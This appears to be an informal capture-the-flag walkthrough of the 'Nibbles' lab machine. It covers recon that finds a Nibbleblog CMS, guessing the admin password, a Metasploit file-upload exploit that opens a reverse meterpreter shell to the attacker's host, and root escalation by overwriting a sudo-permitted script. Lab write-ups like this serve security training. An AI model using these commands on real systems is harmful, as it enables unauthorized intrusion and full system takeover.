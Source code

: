 sccanning this machine it has ssh and a webserver open

going to the page didnt show a lot
bu then we opened the sources

there we found the cms on: /nibbleblog/
in /nibbleblog/content/private/users.xml we found an admin user

on the login /nibbleblog/admin.php
trying default creds didnt work,
trying the word nibbles (this stood out on the webpage) worked
thus getting us the admin:nibbles credentials

using metasploit it has a nibbles file upload exploit:
msfconsole
search nibbleblog
options
set lhost {hackboxip}
set rhost {boxip}
set username admin
set password nibbles
set targeturi nibbleblog
run

this already gave us a meterpreter shell, but not a normal linux shell:
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

whoami showed us to be the nibbler user

sudo -l showed us we could run /home/nibbler/personal/stuff/monitor.sh as root:
echo /bin/bash > /home/nibbler/personal/stuff/monitor.sh
sudo -u root /home/nibbler/personal/stuff/monitor.sh
